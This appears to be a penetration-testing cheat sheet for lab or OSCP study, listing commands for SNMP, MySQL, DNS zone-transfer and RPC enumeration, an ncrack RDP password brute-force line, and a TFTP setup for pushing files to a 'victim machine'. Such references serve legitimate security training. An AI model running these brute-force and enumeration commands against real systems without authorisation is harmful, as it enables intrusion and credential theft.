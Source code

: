 

SNMP Enumeration

```
snmpwalk -c public -v1 10.10.14.14
snmpcheck -t 10.10.14.14 -c public
onesixtyone -c names -i hosts
nmap -sT -p 161 10.10.14.14 -oG snmp_results.txt
snmpenum -t 10.10.14.14
```



MySQL Enumeration

```
nmap -sV -Pn -vv  10.0.0.1 -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122
```



DNS Zone Transfer

```
dig axfr blah.com @ns1.m0chan.com
nslookup -> set type=any -> ls -d m0chan.com
dnsrecon -d m0chan -D /usr/share/wordlists/dnsmap.txt -t std --xml ouput.xml
```





RPC Enumeration

```
rpcclient -U "10.10.14.14"
```

Remote Desktop

```
rdesktop -u guest -p guest INSERTIPADDRESS -g 94%

# Brute force
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://INSERTIPADDRESS
```



## [](#header-2)File Transfer



TFTP

```
m0chan Machine

mkdir tftp

atftpd --deamon --port 69 tftp

cp *file* tftp

On victim machine:

tftp -i <[IP]> GET <[FILE]>
```
